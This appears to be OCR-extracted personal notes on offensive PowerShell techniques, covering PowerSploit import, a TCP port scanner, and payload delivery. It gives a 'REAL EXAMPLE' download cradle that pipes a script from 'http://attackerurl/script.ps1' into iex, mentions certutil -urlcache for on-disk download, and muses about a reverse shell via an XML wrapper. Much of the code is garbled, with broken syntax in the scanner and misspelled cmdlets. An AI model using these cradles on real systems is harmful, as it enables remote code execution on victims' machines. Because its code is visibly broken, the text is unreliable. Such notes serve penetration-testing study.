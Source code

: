 Use: Get-Module -ListAvailable to see a list of available modules.

##### Importing Modules

> Import-Module .\module.psm1

### Powersploit Import

1. Get Powersploit into the computer.

2. Navigate to the directory containing the Powersploit foler

3. Perform the following:

> Import-Module Powersploit

## Powershell TCP Port Scanner

$ports=(portnumbers, portnumbers);
$ip=<ip-address>

foreach ($port in $ports) {try{$socket=New-Object System.Net.Sockets.TcpClient($ip, $port);}

catch();

if ($socket -eq $null) {echo $ip":"$port" - Closed";) else(echo $ip":"$port" - Open";
$socket - $null;)}

## Downloading and Execution

### Windows Powershell In Memory

> Net.WebClient DownloadString

> Net.WebClient DownloadData

> Net.WebClient OpenRead

REAL EXAMPLE:

> powershell.exe iex (NeObject Net.WebClient) .DownloadString("http://attackerurl/script.ps1")

* Remove the powershell.exe if already in Powershell prompt

Can give different extensions for a powershell script as powershell will still run it as a .ps1 no matter the extension.

# On Disk

> Certutil.exe w/ -urlcache argument

## Create the xml document with Powershell command inside

? could be used to create a reverse shell?????

<?xml version="1.0"?>
<command>
	<a>
		<execute>[POWERSHELL COMMAND]</execute>
	</a>
</command>
?>

